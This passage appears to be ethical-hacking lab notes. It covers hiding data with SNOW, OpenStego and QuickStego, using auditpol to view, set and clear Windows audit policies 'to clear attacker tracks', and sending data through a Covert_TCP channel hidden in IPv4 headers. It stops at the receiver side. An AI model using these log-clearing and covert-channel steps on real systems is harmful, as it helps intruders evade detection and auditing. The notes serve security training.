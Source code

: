 Type ***snow -C -p "password" <file name to unhide data>***


**OpenStego – Image Steganography Hide data**

- Select text **message file** which you want to hide
- Select the **cover file** image where data is to be hidden
- Set output path and file name
- Set password if needed
- Click Hide Data


**Extract Data**

- Select the stegno file
- Set the Output folder path
- Give the password
- Cick Extract Data


**QuickStego – Image Steganography Hide data**

- Select the **open image** option to browse the image where data is to be hidden
- Select the **open text** option to browse the text file which you want to hide
- Click **Hide Text** to embed text in image
- Click **Save Image** to output the result image


**Extract Data**

- Select the **open image** option to open the modified image
- Hidden text will be displayed in right side bar


**Auditpol to clear attacker tracks by viewing, enabling, or clearinga audit logs**

- Open cmd
- ***auditpol /get /category:\**** | get auditpolicies for all categories| auditpol –help for help | additpol /get /? for command help 
- ***auditpol /set /category:"system","account logon" /success:enable /failure:enable*** | to set audit policies on categories separated by: then set success and failure audit status
- ***auditpol /clear /y*** | disable audit policies on all categories


**Covert\_TCP – Covert Channels | Hiding traffic in IP4 headers to avoid detection Sender side (10.10.10.11)**

- ***mkdir send***
- ***cd send***
- ***echo “secret” > message.txt***
- Copy covert\_tcp.c from shared path
- ***cc -o covert\_tcp covert\_tcp.c***
- To send message use command ***./covert\_tcp -dest 10.10.10.9 -source 10.10.10.11 -source\_port 8888 -dest\_port 9999 -file /root/Desktop/send/message.txt*** | -dest <destination/receiver IP> -source<sender IP> -file <file path> | **do not run until listener is started on receiver machine**
- Start wireshark before sending to capture the traffic
- View IP4 header in Wireshark traffic to view message byte by byte in order


**Receiver side (10.10.10.9)**
